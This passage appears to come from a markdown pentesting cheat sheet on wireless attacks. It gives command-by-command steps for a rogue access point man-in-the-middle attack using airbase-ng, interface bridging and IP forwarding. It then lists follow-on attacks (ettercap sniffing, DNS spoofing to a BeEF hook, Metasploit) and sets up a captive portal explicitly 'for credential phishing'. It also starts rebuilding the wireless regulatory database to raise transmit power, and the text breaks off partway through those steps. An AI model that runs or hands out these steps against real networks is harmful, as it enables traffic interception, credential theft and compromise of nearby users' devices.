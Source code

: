 - run msfconsole
`> msfconsole -r karma.rc`

### 5.3 MITM attack

#### 5.3.1 preparation 
1. put device in monitoring mode
`> airmon-ng start <device> <channel>`

2. start fake AP (-P to respond to all probe requests, -C 60 rebroadcast every 60sec)
`airbase-ng -c 3 -P -C 60 -e <name e.g. freewifi> -v <mon dev>`

#### 5.3.2 bridge connection to another interface (e.g. the wired one)
1. add a bridged interface
`> brctl addbr <custom bridge name> `

2. add interfaces to the new bridge
`> brctl addif <bridge name> <dev1 e.g. eth0>`
`> brctl addif <bridge name> <dev2 e.g. at0>`

3. assign ip addresses and bring em up
`> ifconfig <dev1 e.g.eth0> 0.0.0.0 up`
`> ifconfig <dev2 e.g.at0> 0.0.0.0 up`
`> ifconfig <bridge name> <valid ip of dev1> up`

4. enable ip forwarding
`> echo 1 > /proc/sys/net/ipv4/ip_forward`

#### 5.3.3 post attack

- run ettercap sniffing
- dnsspoof adresses to direct to beef xxs
- record entire traffic
- remote attack machine with msf

### 5.4 WPA Hotspot with Captive Portal
Setup an AP with DHCP , traffic forwarding and captive portal for credential phishing.

Create an WiFi Hotspot on `<wifi dev>` and route traffic to `<LAN dev>'.

1. bring up `<wlan dev>`
`> ifconfig <wlan dev> <ip>`

#### 5.4.1 increase txpower (kali rolling / bleeding edge)

1. install dependencies
`> apt install libnl-3-dev libgcrypt11-dev libnl-genl-3-dev pkg-config`

2. download CRDA and wireless-regdb
`> wget http://drvbp1.linux-foundation.org/~mcgrof/rel-html/crda/<latest version>.tar.xz`
scroll all the way down and download the *.tar.xz
`> wget https://www.kernel.org/pub/software/network/wireless-regdb/<file>.tar.xz`

3. extract files
`> unxz <crda-latest>.tar.xz`
`> unxz <wireless-regdb-version>.tar.xz`
then
`> tar -xf <crda-latest>.tar`
`> tar -xf <wireless-regdb-version>.tar`
